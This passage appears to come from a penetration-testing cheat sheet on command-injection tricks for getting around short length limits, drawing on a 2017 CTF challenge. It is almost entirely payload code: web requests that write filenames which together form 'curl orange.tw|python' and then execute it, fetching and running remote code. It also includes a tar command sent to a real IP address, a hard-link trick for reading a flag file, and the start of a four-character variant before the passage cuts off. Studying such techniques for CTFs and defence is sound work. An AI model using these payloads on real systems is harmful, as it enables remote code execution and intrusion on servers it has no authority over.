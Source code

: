 ```
http://host/?cmd=>-t\
http://host/?cmd=>\>g
http://host/?cmd=ls>>_

## Step2: generate `curl orange.tw|python to file "g"
## by creating the necesary filenames and writting that content to file "g" executing the previous generated file
http://host/?cmd=>on
http://host/?cmd=>th\
http://host/?cmd=>py\
http://host/?cmd=>\|\
http://host/?cmd=>tw\
http://host/?cmd=>e.\
http://host/?cmd=>ng\
http://host/?cmd=>ra\
http://host/?cmd=>o\
http://host/?cmd=>\ \
http://host/?cmd=>rl\
http://host/?cmd=>cu\
http://host/?cmd=sh _
# Note that a "\" char is added at the end of each filename because "ls" will add a new line between filenames whenwritting to the file

## Finally execute the file "g"
http://host/?cmd=sh g

# Another solution from https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/
# Instead of writing scripts to a file, create an alphabetically ordered the command and execute it with "*"
https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/
## Execute tar command over a folder
http://52.199.204.34/?cmd=>tar
http://52.199.204.34/?cmd=>zcf
http://52.199.204.34/?cmd=>zzz
http://52.199.204.34/?cmd=*%20/h*

# Another curiosity if you can read files of the current folder
ln /f*
## If there is a file /flag.txt that will create a hard link
## to it in the current folder
```
```
### RCE with 4 chars

```bash
# In a similar fashion to the previous bypass this one just need 4 chars to execute commands
# it will follow the same principle of creating the command `ls -t>g in a file
# and then generate the full command in filenames
# generate "g> ht- sl" to file "v"
'>dir'
'>sl'
'>g\>'
'>ht-'
'*>v'

# reverse file "v" to file "x", content "ls -th >g"
'>rev'
'*v>x'

# generate "curl orange.tw|python;"
'>\;\\'
'>on\\'
'>th\\'
```